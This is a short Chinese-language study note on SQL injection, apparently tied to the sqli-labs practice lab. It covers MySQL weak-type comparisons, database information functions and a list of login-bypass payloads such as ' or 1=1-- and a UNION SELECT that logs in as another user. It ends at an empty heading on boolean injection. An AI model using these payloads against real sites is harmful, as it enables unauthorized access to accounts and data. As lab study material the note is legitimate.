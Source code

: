 ## 练习

[sqllab](https://github.com/Audi-1/sqli-labs/blob/master/readme.md)

## sql 特性

### sql 里面弱类型的比较，以下情况都会为 true：

- 1='1'
- 1='1.0'
- 1='1 后接字母(再后面有数字也可以)'
- 0='除了 非 0 数字 开头 的字符串'

  uname=admin
  &passwd=admin'||'1'='1

## 注入

常用函数：

```
version() 数据库版本
@@datadir 数据库路径
@@version_compile_os
user()
database() 数据库名称
system_user() 系统用户名
current_user() 当前用户名
session_user() 连接数据库的用户名
concat("abc","123")=abc123
concat("abc",0x22,"123")=abc"123
```

### 万能密码

```
'or 1#
admin' --
admin' #
admin'/*
' or 1=1--
' or 1=1#
' or 1=1/*
') or '1'='1--
') or ('1'='1--
以不同的用户登陆 ' UNION SELECT 1, 'anotheruser', 'doesnt matter', 1--
```

其他待补充

### bool 型注入

